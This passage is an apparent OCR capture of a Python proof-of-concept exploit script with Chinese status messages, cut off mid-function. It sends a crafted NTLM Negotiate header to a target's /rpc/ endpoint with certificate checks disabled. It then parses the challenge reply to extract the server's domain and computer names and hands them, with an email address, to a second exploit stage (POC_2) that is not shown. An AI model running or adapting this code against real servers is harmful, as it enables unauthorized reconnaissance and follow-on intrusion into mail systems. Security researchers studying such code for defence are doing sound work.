 ```python

def _unpack_str(byte_string):
    return byte_string.decode('UTF-8').replace('\x00', '')


def _unpack_int(format, data):
    return unpack(format, data)[0]


def parse_challenge(Negotiate_base64_decode):
    target_info_field = Negotiate_base64_decode[40:48]
    target_info_len = _unpack_int('H', target_info_field[0:2])
    target_info_offset = _unpack_int('I', target_info_field[4:8])

    target_info_bytes = Negotiate_base64_decode[target_info_offset:target_info_offset + target_info_len]

    domain_name = ''
    computer_name = ''
    info_offset = 0
    while info_offset < len(target_info_bytes):
        av_id = _unpack_int('H', target_info_bytes[info_offset:info_offset + 2])
        av_len = _unpack_int('H', target_info_bytes[info_offset + 2:info_offset + 4])
        av_value = target_info_bytes[info_offset + 4:info_offset + 4 + av_len]

        info_offset = info_offset + 4 + av_len
        if av_id == 2:  # MsvAvDnsDomainName
            domain_name = _unpack_str(av_value)
        elif av_id == 3:  # MsvAvDnsComputerName
            computer_name = _unpack_str(av_value)

    if domain_name and computer_name:
        return domain_name, computer_name
    else:
        print("\033[31m[x] 计算机名称或域名称获取失败")
        sys.exit(0)


def POC_1(target_url, Email):
    print("\033[32m[o] 正在获取 计算机名称和域名称.....\033[0m")
    ntlm_type1 = (
        'NTLMSSP\x00'  # NTLMSSp签名
        '\x01\x00\x00\x00'  # 信息类型
        '\x97\x82\x08\xe2'  # 标记
        '\x00\x00\x00\x00\x00\x00\x00\x00'  # 域名称字符
        '\x00\x00\x00\x00\x00\x00\x00\x00'  # 工作字符
        '\x0a\x00\xba\x47\x00\x00\x00\x0f'  # 系统版本
    )
    headers = {
        'Authorization': 'Negotiate {}'.format(b64encode(ntlm_type1))
    }
    basic_url = 'https://{}/rpc/'.format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.get(url=basic_url, headers=headers, verify=False)
    if response.status_code == 401:
        Negotiate_base64_encode = response.headers['WWW-Authenticate']
        Negotiate_base64_decode = re.search('Negotiate ([A-Za-z0-9/+=]+)', Negotiate_base64_encode).group(1)
        domain_name, computer_name = parse_challenge(b64decode(Negotiate_base64_decode))
        print("\033[32m[o] 计算机名称: {}\033[0m".format(computer_name))
        print("\033[32m[o] 域名称:    {}\033[0m".format(domain_name))
        POC_2(target_url, Email, computer_name)
    else:
```